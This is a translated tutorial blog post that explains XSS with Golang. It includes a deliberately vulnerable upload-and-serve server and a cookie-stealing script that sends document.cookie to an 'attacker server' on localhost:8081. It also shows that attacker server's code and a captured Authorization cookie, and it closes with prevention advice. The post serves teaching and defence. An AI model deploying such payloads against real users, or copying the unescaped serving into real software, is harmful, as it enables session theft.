

+++
author = "penguinit"
title = "What is XSS: Learn with Golang"
date = "2024-03-17"
description = "In today's post, we'll learn about Cross-Site Scripting (XSS), build a simple web server with Golang, and see how it can be attacked."
tags = [
"xss", "browser", "golang"
]
categories = [
"web", "language"
]
+++

## Overview

In today's post, we'll learn about Cross-Site Scripting (XSS), build a simple web server with Golang, and see how it can be attacked.

## What is XSS

Cross-Site Scripting (XSS) is a vulnerability that can occur when user-supplied input is not validated or properly escaped. An attacker can use this vulnerability to inject malicious scripts into a web page, which can then be executed in another user's browser, allowing them to hijack the user's session, tamper with the website, and more.



## Example of an XSS attack

Let's create a simple example of creating a web server with Golang and fetching sensitive information.

### A server that uploads and displays specific content

```go
package main

import (
	"fmt"
	"io"
	"net/http"
	"os"
)

func uploadFileHandler() http.HandlerFunc {
	return func(w http.ResponseWriter, r *http.Request) {
		if r.Method == "POST" {
			// 1. extract the file
			file, _, err := r.FormFile("uploadedFile")
			if err != nil {
				http.Error(w, err.Error(), http.StatusBadRequest)
				return
			}
			defer file.Close()

			// 2. Read the file contents
			fileBytes, err := io.ReadAll(file)
			if err != nil {
				http.Error(w, err.Error(), http.StatusInternalServerError)
				return
			}

			// 3. save the file contents to a temporary file on the server
			err = os.WriteFile("uploadedScript.html", fileBytes, 0644)
			if err != nil {
				http.Error(w, err.Error(), http.StatusInternalServerError)
				return
			}
			
			fmt.Fprintf(w, "File uploaded successfully")
		}
	}
}

func serveContentHandler() http.HandlerFunc {
	return func(w http.ResponseWriter, r *http.Request) {
		http.ServeFile(w, r, "uploadedScript.html")
	}
}

func main() {
	http.HandleFunc("/", uploadFileHandler())
	http.HandleFunc("/content", serveContentHandler())

	fmt.Println("Server started at :8080")
	http.ListenAndServe(":8080", nil)
}
```
You can upload scripts for XSS attacks with the `POST /` function and deliver the uploaded content to the user with the `GET /content` function.

### Uploaded XSS attack script

```jsx
// xss.html

<script>
   function sendCookies() {
   var xhr = new XMLHttpRequest();
   xhr.open("GET", "http://localhost:8081/steal?cookie=" + encodeURIComponent(document.cookie), true);
   xhr.send();
}

   sendCookies();
</script>
```
When the script is executed, it sends the cookie information of the user executing the script to the attacker server on port 8081.

### Attacker Server

The attacker server receives the cookie information through the XSS attack script.

```go
package main

import (
	"fmt"
	"log"
	"net/http"
)

func main() {
	http.HandleFunc("/steal", func(w http.ResponseWriter, r *http.Request) {
		enableCors(&w)

		// Get the "cookie" value from the query parameter.
		cookie := r.URL.Query().Get("cookie")
		// Print to the console.
		fmt.Printf("Stealed Cookie: %s\n", cookie)

		w.WriteHeader(http.StatusOK)
		fmt.Fprint(w, "OK")
	})

	log.Println("Starting on attacker server port 8081...")
	log.Fatal(http.ListenAndServe(":8081", nil))
}

func enableCors(w *http.ResponseWriter) {
	(*w).Header().Set("Access-Control-Allow-Origin", "*")
}
```

### Actual result

1. upload formFile using curl

```
curl -F "uploadedFile=@path/to/xss.html" http://localhost:8080/
```

2. execute GET /content with a specific user ([http://localhost:8080/content](http://localhost:8080/content))
3. steal cookie information from the attacker's server

```
2024/03/17 17:02:10 Started on attacker server port 8081...
Stealed Cookie: Authorization=t1823ski!3a;
```

In the example above, the XSS attack script is inserted and when the customer accesses the page, the attacker server gets the cookie-related information.

## Preventing XSS

To proactively prevent XSS attacks, you can consider several methods.

1. Input validation: You should perform validation on all input you receive from users, for example, only email addresses should be accepted in the email address field, and where names are entered, you can limit the length or validate for certain characters.
2. Output encoding: When outputting user input to a web page, use HTML encoding to convert potentially dangerous characters, such as script tags, into safe forms. For example, it converts `<` to `&lt;` and `>` to `&gt;`.
3. Content Security Policy (CSP): With a CSP, you can restrict the origin of scripts that can be executed on a web page.  → [What is CSP, learn more with Golang](/en/post/202403/5/)
4. Cookie settings: Using the `HttpOnly` and `Secure` flags, you can help protect your user's session from XSS attacks.
   1. HttpOnly: Cookies with this flag set are not accessible via JavaScript, which prevents cookie hijacking via XSS attacks.
   2. `Secure`: Cookies with this flag set will only be sent over HTTPS.

## Summary

XSS attacks can be attempted in various ways besides the examples above. Attack scripts can be placed in specific fields stored in the DB, or if you have a feature that outputs the user's input as it is, you can perform unwanted scripts directly without considering the above XSS attacks.

In this post, we've discussed what XSS is and how it can be attacked using a simple Golang example.

Translated with DeepL.com (free version)